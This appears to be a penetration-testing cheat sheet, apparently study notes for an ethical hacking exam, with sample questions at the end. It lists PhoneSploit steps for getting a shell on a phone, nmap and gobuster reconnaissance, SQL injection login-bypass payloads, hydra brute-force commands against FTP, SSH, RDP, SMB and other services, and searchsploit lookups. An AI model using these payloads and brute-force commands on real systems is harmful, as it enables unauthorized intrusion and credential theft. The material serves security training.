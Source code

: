 *// Using PhoneSploit*  
run phonesploit  
option 3 *// new phone*  
enter the ip *// ip\' phone &*  
option 4 *// to shell on the phone*  
*//in the menu you can search, download, info*

#### Using the methodology

1.  netdiscover -i eth0

2.  map -p- 10.10.10.10 \[ Any IP \] port discovery

3.  nmap -p443,80,53,135,8080,8888 -A -O -sV -sC -T4 -oN nmapOutput
    > 10.10.10.10

4.  gobuster -e -u\*\* http://10.10.10.10 -w wordlsit.txt on a webserver
    > running

5.  trying sqli payloads on the forms

admin\' \--  
admin\' \#  
admin\'/\*  
\' or 1=1\--  
\' or 1=1#  
\' or 1=1/\*  
\') or \'1\'=\'1\--  
\') or (\'1\'=\'1---

6.  bruteforcing web servers

hydra -l root -P passwords.txt \[-t 32\] \<IP\> \*\*\_ftp\_\*\*  
hydra -L usernames.txt -P pass.txt \<IP\> \*\*\_mysql\_\*\*  
hydra -l USERNAME -P /path/to/passwords.txt -f \<IP\> \*\*\_pop3\_\*\*
-V  
hydra -V -f -L \<userslist\> -P \<passwlist\> \*\*\_rdp\_\*\*://\<IP\>  
hydra -P common-snmp-community-strings.txt target.com \*\*\_snmp\_\*\*  
hydra -l Administrator -P words.txt 192.168.1.12 \*\*\_smb\_\*\* -t 1  
hydra -l root -P passwords.txt \<IP\> \*\*\_ssh\_\*\*

7.  cewl example.com -m 5 -w words.txt custom wordlist

8.  search for vulns

searchsploit \'Linux Kernel\'  
searchsploit -m 7618 *// Paste the exploit in the current directory*  
searchsploit -p 7618\[.c\] *// Show complete path*  
searchsploit --- nmap file.xml *// Search vulns inside a Nmap XML
result*

**SAMPLE QUESTION**

1)Find the IP address of the machine which is running the RDP?

2\) Find the IP address of the machine which is running the RDP?

3\) Find the HTTP method that poses a high risk to the application
example.com?
